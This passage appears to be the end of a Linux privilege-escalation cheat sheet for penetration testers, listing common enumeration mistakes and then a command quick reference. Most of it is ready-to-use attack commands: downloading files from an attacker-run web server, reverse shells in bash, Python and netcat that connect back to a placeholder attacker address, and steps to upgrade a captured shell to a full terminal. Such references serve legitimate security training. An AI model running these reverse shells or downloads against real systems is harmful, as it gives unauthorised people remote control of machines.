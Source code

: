 ### 3. Ignoring Automated Scripts
❌ Only doing manual enumeration
✅ Run LinPEAS first, then investigate findings manually

### 4. Not Monitoring Processes  
❌ Static enumeration only
✅ Use pspy to watch for periodic processes and cron jobs

### 5. Forgetting about Capabilities
❌ Only checking SUID and sudo
✅ Check file capabilities with `getcap -r / 2>/dev/null`

## Essential Commands Quick Reference

### File Transfer
```bash
# Python web server (on attacker)
python3 -m http.server 8000

# Download files
wget http://<attacker-ip>:8000/file
curl -O http://<attacker-ip>:8000/file

# Base64 transfer (small files)
base64 file.txt    # On attacker
echo 'base64-string' | base64 -d > file.txt    # On target
```

### Reverse Shells
```bash
# Bash
bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker-ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Netcat
nc -e /bin/bash <attacker-ip> 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker-ip> 4444 >/tmp/f
```

### Spawn TTY Shell
```bash
# Python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Echo
echo os.system('/bin/bash')

# Script
script -qc /bin/bash /dev/null

# Full interactive shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z (background)
stty raw -echo; fg
# Enter twice
export SHELL=bash
export TERM=xterm-256color
```